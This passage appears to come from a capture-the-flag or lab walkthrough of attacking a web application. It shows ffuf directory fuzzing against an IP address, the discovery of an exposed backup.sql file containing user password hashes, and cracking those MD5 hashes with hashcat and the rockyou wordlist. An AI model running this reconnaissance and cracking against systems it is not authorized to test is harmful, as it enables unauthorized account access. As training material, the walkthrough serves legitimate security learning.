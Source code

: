 Let's deploy `Burp` and analyze the application. We can try brute forcing, also different SQL injections payloads for authentication bypass, but none work. Let's try fuzzing to see if there are other endpoints or files hosted on web root
```
└─$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -u http://35.208.91.212/inventory/FUZZ -e .conf,.txt,.json,.xml,.yml,.yaml,.env,.sql  

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://35.208.91.212/inventory/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .conf .txt .json .xml .yml .yaml .env .sql 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
<SNIP>
user                    [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 464ms]
admin                   [Status: 301, Size: 324, Words: 20, Lines: 10, Duration: 204ms]
upload                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 203ms]
css                     [Status: 301, Size: 322, Words: 20, Lines: 10, Duration: 215ms]
vendor                  [Status: 301, Size: 325, Words: 20, Lines: 10, Duration: 204ms]
dist                    [Status: 301, Size: 323, Words: 20, Lines: 10, Duration: 203ms]
backup.sql              [Status: 200, Size: 9781, Words: 1107, Lines: 358, Duration: 208ms]

```

We find interesting file named `backup.sql`, which seems like a SQL export of the database. It contains users and their hashes

![](infiltrate-gcp-via-webapp-exploitation-3.png)

Let's try cracking hashes
```
└─$ hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344386
* Bytes.....: 139921520
* Keyspace..: 14344386

f7a8888ca0572161c57653fd3c04e413:<REDACTED>            
<SNIP>
```
